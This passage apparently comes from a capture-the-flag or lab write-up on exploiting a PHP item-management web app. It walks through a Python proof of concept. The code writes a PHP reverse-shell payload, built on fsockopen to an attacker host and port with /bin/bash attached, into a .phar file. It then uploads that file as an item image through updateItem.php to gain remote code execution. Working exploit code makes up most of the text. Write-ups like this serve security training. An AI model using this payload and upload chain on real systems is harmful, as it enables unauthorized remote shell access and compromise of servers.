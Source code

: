 With that, we can update an existing item and change the image to our crafted payload file to get a webshell.

![Our Payload](images/Pasted%20image%2020231125183156.png)
![result of the id command](images/Pasted%20image%2020231125183304.png)

Time to automate the thing.

# Remote Code Execution PoC

Our goal now is to get a reverse shell; continuing on our previous PoC, we'll add a few more functions to::
- Create a `php .phar` file containing our reverse shell payload.
- Update an Item's image to our crafted Phar file, 
- Visit the file once uploaded to execute it and get the reverse shell. 

Start by creating the function to create the Phar file with the PHP reverse shell payload:

```python
SCRIPT_DIR = os.path.abspath( os.path.dirname( __file__ ) )
REVSHELL_DIR = SCRIPT_DIR + "/normal.phar"
REVSHELL_UPLOAD_PATH = "/item/image/normal.phar"
# Step 5: Create the reverse shell file to be uploaded
def create_rev_shell(HOST, PORT):
    payload = f'<?php $sock=fsockopen("{HOST}",{PORT});$proc=proc_open("/bin/bash", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
    with open(REVSHELL_DIR, "w") as revshell:
        revshell.write(payload)
    print(f"[+] Reverse Shell Created; The target will connect to {HOST}:{PORT}")
    return True
```

Afterwards, create the function to update an item info and upload our `phar` payload as the image.

```python
# Step 6: Update Item
UPDATE_ITEM_PAGE = "/item/updateItem.php"
def update_item(session):
    data = {"id": "1", "id_user": "1", "name": "Testing Item", "description": "Description of the test item", "price": "100" }
    file = {"image": ("normal.phar", open(REVSHELL_DIR, "rb"))}
    response = session.post(BASE_URL + UPDATE_ITEM_PAGE, files=file, data=data)

    if "Success" in response.text:
        print(f"[+] Print Reverse Shell uploaded, find it in {REVSHELL_UPLOAD_PATH}.")
        return True
    return False
```
